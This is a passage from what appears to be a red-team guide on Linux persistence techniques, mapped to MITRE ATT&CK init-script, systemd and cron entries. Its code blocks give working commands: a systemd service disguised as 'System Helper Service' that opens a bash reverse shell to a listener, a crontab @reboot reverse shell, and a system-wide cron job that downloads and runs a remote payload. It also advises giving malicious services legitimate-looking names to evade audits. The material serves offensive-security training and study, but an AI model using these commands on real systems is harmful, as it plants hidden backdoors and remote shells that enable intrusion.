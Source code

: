 
**Specific ATT&CK Mapping**:
- Init script modification directly implements T1547.006
- Boot-time execution ensures persistence across system restarts

**Detection Considerations**:
- New or modified init scripts may trigger file integrity monitoring alerts
- Unusual network connections during boot sequence might be flagged
- Services without proper documentation may be identified during audits

#### Systemd Services (T1543.002)

Tools for systemd persistence:

**Systemd Unit Files**:
```bash
# Create a persistent systemd service
cat > /etc/systemd/system/helper.service << EOF
[Unit]
Description=System Helper Service
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'
Restart=always

[Install]
WantedBy=multi-user.target
EOF

systemctl enable helper.service
systemctl start helper.service
```

**Specific ATT&CK Mapping**:
- Systemd service creation implements T1543.002
- Service configuration provides reliable persistence

**Red Team Considerations**:
- Name services to appear legitimate (e.g., network_monitor, update_service)
- Consider dependencies to control execution timing
- Use service description fields that seem authentic

### Cron (T1053.003)

Tools for cron-based persistence:

**Crontab Manipulation**:
```bash
# Add a persistent reverse shell to crontab
(crontab -l 2>/dev/null; echo "@reboot sleep 60 && bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'") | crontab -

# System-wide cron job
echo "*/30 * * * * root bash -c 'curl -s http://192.168.1.100/payload.sh | bash'" > /etc/cron.d/system_update
```
